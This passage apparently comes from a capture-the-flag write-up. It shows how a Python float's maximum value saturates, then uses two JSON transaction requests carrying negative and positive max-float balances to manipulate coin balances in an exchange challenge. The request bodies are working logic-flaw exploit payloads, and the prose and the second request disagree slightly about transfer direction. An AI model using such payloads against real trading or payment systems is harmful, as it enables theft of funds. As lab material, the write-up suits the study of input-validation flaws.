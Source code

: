 ```python
>>> import sys
>>> x = sys.float_info.max
>>> x
1.7976931348623157e+308
>>> x + 111111
1.7976931348623157e+308
```

> `1.7976931348623157e+308` = `1.7976931348623157 x 10 ^ 308`

I can subtract `ascoin` and `doge` with `-max`, so they will be `max` and `-max`

- Transaction

```json
{
  "sourceCoin": "ascoin",
  "targetCoin": "doge",
  "balance": "-1.7976931348623157e+308"
}
```

- Balance

![](/assets/obsidian/0a53a68d0b09ed72f0119520274f11cd.png){:target='_blank'}

Now just give `1.7976931348623157e+308` from **doge** to **ascoint**

- Transaction 2

```json
{
  "sourceCoin": "ascoin",
  "targetCoin": "doge",
  "balance": "1.7976931348623157e+308"
}
```
